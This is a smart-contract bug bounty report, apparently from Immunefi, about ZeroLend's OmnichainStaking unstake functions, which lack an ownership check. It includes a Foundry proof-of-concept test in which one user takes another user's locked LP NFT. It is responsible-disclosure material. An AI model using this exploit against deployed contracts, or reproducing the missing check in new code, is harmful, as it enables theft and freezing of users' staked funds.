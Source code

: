 
# OmnichainStaking.sol:unstakeLP and OmnichainStaking.sol:unstakeToken allows anyone to unstake any token provided they own enough ZEROvp

Submitted on Fri Mar 08 2024 01:52:20 GMT-0400 (Atlantic Standard Time) by @jovi for [Boost | ZeroLend](https://immunefi.com/bounty/zerolend-boost/)

Report ID: #29135

Report type: Smart Contract

Report severity: Critical

Target: https://github.com/zerolend/governance

Impacts:
- Direct theft of any user NFTs, whether at-rest or in-motion, other than unclaimed royalties
- Temporary freezing of funds for at least 1 hour
- Permanent freezing of funds

## Description
## Brief/Intro
The unstakeLP and the unstakeToken functions at the OmnichainStaking contracts allow a user to burn ZEROvp tokens in order to get back user-defined tokenIds. This enables malicious parties to unstake tokens they don't rightfully own.

## Vulnerability Details
If we take a look at both unstaking functions, there are no checks to ensure the transaction caller has any right to that token id, rather the functions check if the caller owns enough ZEROvp token to be burnt. 

```solidity
function unstakeLP(uint256 tokenId) external {
        _burn(msg.sender, lpPower[tokenId] * 4);
        lpLocker.safeTransferFrom(address(this), msg.sender, tokenId);
    }

    function unstakeToken(uint256 tokenId) external {
        _burn(msg.sender, tokenPower[tokenId]);
        tokenLocker.safeTransferFrom(address(this), msg.sender, tokenId);
    }
```
This is not necessarily an issue if taken only at the OmnichainStaking contract context.
However, considering different NFTs have different lock expiries at both the LockerToken and the LockerLP contracts, malicious parties can unstake token ids to benefit in different forms, as shown at the impact section.

## Impact Details
Users can receive tokens before their lock expiry ends by unstaking ERC-721 tokens that have earlier expiry without the authorization of their rightful owners. This leads to the freezing of user funds that can be never-ending as other people can claim before the rightful owner.
## References
unstakeLP and unstakeToken functions at OmnichainStaking.sol: https://github.com/zerolend/governance/blob/main/contracts/locker/OmnichainStaking.sol#L76C5-L84C6

votingPowerOf and calculatePower functions at BaseLocker.sol:
https://github.com/zerolend/governance/blob/main/contracts/locker/BaseLocker.sol#L103C5-L116C6

        
## Proof of concept
## Proof of concept
Paste the following code snippet inside the test folder:
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.20;

import {console} from "../../lib/forge-std/src/console.sol";
import {StdInvariant} from "../../lib/forge-std/src/StdInvariant.sol";
import {LockerLP} from "../../locker/LockerLP.sol";
import {LockerToken} from "../../locker/LockerToken.sol";
import {OmnichainStaking} from "../../locker/OmnichainStaking.sol";
import {Test} from "../../lib/forge-std/src/Test.sol";
import {ERC20} from "@openzeppelin/contracts/token/ERC20/ERC20.sol";

contract MintableERC20 is ERC20 {
    address public owner;

    constructor(string memory name, string memory symbol) ERC20(name, symbol) {
        owner = msg.sender;
    }

    modifier onlyOwner() {
        require(msg.sender == owner, "MintableERC20: caller is not the owner");
        _;
    }

    function mint(address to, uint256 amount) public onlyOwner {
        _mint(to, amount);
    }
}

contract ZeroLendTest is StdInvariant, Test {

    LockerLP lockerLP;
    LockerToken lockerToken;
    OmnichainStaking omnichainStaking;
    MintableERC20  arbitraryToken;
    address user = makeAddr("user");
    address alice = makeAddr("alice");
    address bob = makeAddr("bob");
    address public configurator = makeAddr("configurator");
    uint256 internal WEEK;
    uint256 internal MAXTIME;

    function setUp() public {
        vm.prank(configurator);
        arbitraryToken = new MintableERC20("Arbitrary Token", "ATKN");
        vm.prank(configurator);
        arbitraryToken.mint(user, 1 ether);
        vm.prank(configurator);
        arbitraryToken.mint(alice, 1 ether);
        vm.prank(configurator);
        arbitraryToken.mint(bob, 1 ether);


        vm.prank(configurator);
        lockerLP = new LockerLP();

        lockerLP.init(
            address(arbitraryToken),
            // staking address
            address(0x1000),
            // stakingBonus
            address(0x1001)
        );

        lockerToken = new LockerToken();
        lockerToken.init(
            address(arbitraryToken),
            // staking address
            address(0x1000),
            // stakingBonus
            address(0x1001)
        );

        omnichainStaking = new OmnichainStaking();
        omnichainStaking.init(
            // LZ endpoint
            address(0x1002),
            // tokenLocker
            address(lockerToken),
            // lpLocker
            address(lockerLP)
        );

        WEEK = 1 weeks;
        MAXTIME = 365 * 86400;

    }

    function test_poc1() public {

        vm.prank(alice);
        arbitraryToken.approve(address(lockerLP), 1 ether);
        vm.prank(bob);
        arbitraryToken.approve(address(lockerLP), 1 ether);

        uint256 unlockTime0 = ((block.timestamp + MAXTIME) / WEEK) * WEEK - 100; // Locktime is rounded down to weeks
        vm.prank(alice);
        lockerLP.createLock(0.5 ether, unlockTime0, false);

        // pass 2 weeks
        vm.warp(block.timestamp + 2 * WEEK);

        uint256 unlockTime1 = unlockTime0  + 1 * WEEK; // Locktime is rounded down to weeks
        vm.prank(bob);
        lockerLP.createLock(0.5 ether, unlockTime1, false);

        // transfer both tokens to the omnichainStaking contract
        vm.prank(alice);
        lockerLP.safeTransferFrom(alice, address(omnichainStaking), 1);

        vm.prank(bob);
        lockerLP.safeTransferFrom(bob, address(omnichainStaking), 2);

        // get the lock 1 expiry
        (, uint256 end,,) = lockerLP.locked(1);

        // travel to the expiry period + 1 day
        vm.warp(end + 1 days);

        require(end < block.timestamp);

        // bob will unstake alice's token and be able to withdraw the token at the lockerLp contract.
        vm.prank(bob);
        omnichainStaking.unstakeLP(1);

        // alice will try to unstake her token and fail
        vm.prank(alice);
        vm.expectRevert();
        omnichainStaking.unstakeLP(1);

        // alice will end be able to unstake bob's token, but notice how it is still locked at the lockerLp contract
        (,end,,) = lockerLP.locked(2);
        require(end > block.timestamp);


       }

}
```

Run the test with the following command:
```shell
forge test --match-test test_poc1 -vvv
```